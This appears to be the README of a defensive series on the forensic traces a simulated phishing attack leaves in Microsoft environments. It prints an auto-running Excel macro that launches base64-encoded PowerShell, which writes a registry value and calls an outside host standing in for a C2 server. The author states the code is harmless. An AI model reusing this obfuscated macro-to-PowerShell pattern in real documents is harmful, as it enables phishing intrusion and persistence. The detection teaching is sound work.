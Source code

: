 # 🐾 Spoors

This series will try to uncover the traces, audit logs and some of the OS artifacts left behind (by default, or by enabling extra stuff) when users are tricked to click where they shouldn’t have. 

## Season 1

This first season isn’t too much about hunting. But about understanding what data to look for. In a next season, we’ll focus on how to leverage Microsoft Defender 365 products as well as Microsoft Sentinel.

📜 Here is the scenario:

A bad actor sent a message to potentially multiple recipients at PieSec Corp. This message contained a malicious attachment, an Excel file with a macro, which executes obfuscated PowerShell code to do two tasks:
1. Write something in the registry (maybe to stay persistent)
2. Send a message to a C2 server

![Diagram season 1](Images/S01.jpg)

Here is the macro's code:
```
Private Sub Workbook_Open()

    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run ("powershell -encodedcommand SW52b2tlLVdtaU1ldGhvZCAtQ2xhc3MgU3RkUmVnUHJvdiAtTmFtZSBTZXRTdHJpbmdWYWx1ZSAtQXJndW1lbnRMaXN0ICgyMTQ3NDgzNjQ5LCJTT0ZUV0FSRSIsIlllcyIsIkNhbkJlRGVsZXRlZCIpIDsgSW52b2tlLVdlYlJlcXVlc3QgLVVyaSAiaHR0cDovL3BlcmR1LmNvbSI=")

End Sub
```
The macro is configured to run automatically. 

💡 Note that the code is harmless. It can run on your own system without damaging anything. 

### S01E01 – The pilot
Introduction of the methodology and of the focus for the first season.

📄 No technical content.

### S01E02 – The post-person
The threat arrived in the environment via email. Could it has been stopped in the messaging platform? What traces of that message do we have in Exchange Online? Let's dig into this...  

📄 Read [S01E02](S01E02.md)

### S01E03 – Process tracks
The attachment was downloaded from Outlook and opened with Excel. In this episode we will see the traces left by those processes (and others invoked by the macro) on the victim's system.

📄 Read [S01E03](S01E03.md)

### S01E04 – PowerShell tracks
The PowerShell code was encoded in base64. In this episode, we will discover how we can track the things PowerShell does, how much visibility we get by default and how to enhance it.  

📄 Read [S01E04](S01E04.md)

### S01E05 – WMI logging
The first comdlet of the PowerShell script was `Invoke-WMIMethod`. In this episode we are going to review what is left behind where we do WMI queries on a system, whether it is with PowerShell or other tools.

📄 Read [S01E05](S01E05.md)

### S01E06 – Registry tracks
The WMI method called in the PowerShell script was modifying the registry. In this episode we will have a close look at that traces are generated when the registry is modified.

📄 Read [S01E06](S01E06.md)

### S01E07 – Track outbound network connections 
Last spoor to uncover, the outbound connections made by our macro. In this episode we will look at the traces left (or the lack of) by a network call. 

📄 Read [S01E07](S01E07.md)

## Season 2

🔜 Coming soon...